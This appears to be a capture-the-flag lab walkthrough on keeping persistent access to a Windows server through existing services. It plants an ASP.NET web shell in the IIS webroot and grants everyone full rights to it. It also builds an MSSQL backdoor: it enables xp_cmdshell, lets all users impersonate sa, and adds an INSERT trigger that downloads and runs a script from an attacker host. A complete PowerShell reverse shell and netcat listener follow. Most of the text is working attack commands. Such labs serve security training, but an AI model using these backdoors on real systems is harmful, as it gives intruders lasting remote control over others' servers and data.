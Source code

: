 # Persisting Through Existing Services

If you don't want to use Windows features to hide a backdoor, you can always profit from any existing service that can be used to run code for you. This task will look at how to plant backdoors in a typical web server setup. Still, any other application where you have some degree of control over what gets executed should be backdoorable similarly. The possibilities are endless!

---

## Using Web Shells

The usual way of achieving persistence in a web server is by uploading a web shell to the web directory. This is trivial and will grant us access with the privileges of the configured user in IIS, which by default is `iis apppool\defaultapppool`. Even if this is an unprivileged user, it has the special `SeImpersonatePrivilege`, providing an easy way to escalate to the Administrator using various known exploits. For more information on how to abuse this privilege, see the **Windows Privesc Room**.

### Steps:

1. **Download an ASP.NET web shell**:  
    A ready-to-use web shell is provided [here](#), but feel free to use any you prefer. Transfer it to the victim machine and move it into the webroot, which by default is located in the `C:\inetpub\wwwroot` directory:

    ```cmd
    C:\> move shell.aspx C:\inetpub\wwwroot\
    ```

    **Note**: Depending on the way you create/transfer `shell.aspx`, the permissions in the file may not allow the web server to access it. If you are getting a "Permission Denied" error while accessing the shell's URL, just grant everyone full permissions on the file to get it working:

    ```cmd
    icacls shell.aspx /grant Everyone:F
    ```

2. **Access the web shell**:  
    You can then run commands from the web server by pointing to the following URL:

    ```
    http://MACHINE_IP/shell.aspx
    ```

    ![web shell](#)

3. **THM Flag**:  
    Use your web shell to execute the following command to retrieve the flag:

    ```cmd
    C:\flags\flag16.exe
    ```

**Note**: While web shells provide a simple way to leave a backdoor on a system, it is usual for blue teams to check file integrity in the web directories. Any change to a file in there will probably trigger an alert.

---

## Using MSSQL as a Backdoor

There are several ways to plant backdoors in MSSQL Server installations. For now, we will look at one of them that abuses **triggers**. Simply put, triggers in MSSQL allow you to bind actions to be performed when specific events occur in the database. Those events can range from a user logging in to data being inserted, updated, or deleted from a given table. For this task, we will create a trigger for any `INSERT` into the `HRDB` database.

### Steps:

1. **Enable `xp_cmdshell`**:  
    `xp_cmdshell` is a stored procedure that allows you to run commands directly in the system's console but comes disabled by default. To enable it:

    - Open **Microsoft SQL Server Management Studio 18** (available from the Start menu).
    - Use **Windows Authentication** to log in.
    - Click on the **New Query** button to open the query editor.
    - Run the following SQL commands:

      ```sql
      sp_configure 'Show Advanced Options', 1;
      RECONFIGURE;
      GO

      sp_configure 'xp_cmdshell', 1;
      RECONFIGURE;
      GO
      ```

2. **Grant privileges**:  
    Ensure that any website accessing the database can run `xp_cmdshell`. By default, only database users with the `sysadmin` role can do so. Grant privileges to all users to impersonate the `sa` user (default database administrator):

    ```sql
    USE master;
    GRANT IMPERSONATE ON LOGIN::sa TO [Public];
    ```

3. **Create a trigger**:  
    Change to the `HRDB` database and configure a trigger to execute whenever an `INSERT` is made into the `Employees` table. The trigger will leverage `xp_cmdshell` to execute PowerShell to download and run a `.ps1` file from a web server controlled by the attacker:

    ```sql
    USE HRDB;

    CREATE TRIGGER [sql_backdoor]
    ON HRDB.dbo.Employees 
    FOR INSERT AS

    EXECUTE AS LOGIN = 'sa';
    EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
    ```

4. **Create `evilscript.ps1`**:  
    On the attacker's machine, create a PowerShell reverse shell script (`evilscript.ps1`):

    ```powershell
    $client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4454);
    $stream = $client.GetStream();
    [byte[]]$bytes = 0..65535 | %{0};
    while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
         $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
         $sendback = (iex $data 2>&1 | Out-String);
         $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
         $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
         $stream.Write($sendbyte, 0, $sendbyte.Length);
         $stream.Flush();
    }
    $client.Close();
    ```

5. **Set up listeners**:  
    Open two terminals to handle the connections involved in this exploit:

    - **Terminal 1**: Serve the `evilscript.ps1` file:

      ```bash
      user@AttackBox$ python3 -m http.server
      ```

    - **Terminal 2**: Listen for the reverse shell:

      ```bash
      user@AttackBox$ nc -lvp 4454
      ```

6. **Trigger the backdoor**:  
    Navigate to `http://MACHINE_IP/` and insert an employee into the web application. Since the web application will send an `INSERT` statement to the database, the trigger will provide access to the system's console.

7. **THM Flag**:  
    Use your web shell to execute the following command to retrieve the flag:

    ```cmd
    C:\flags\flag17.exe
    ```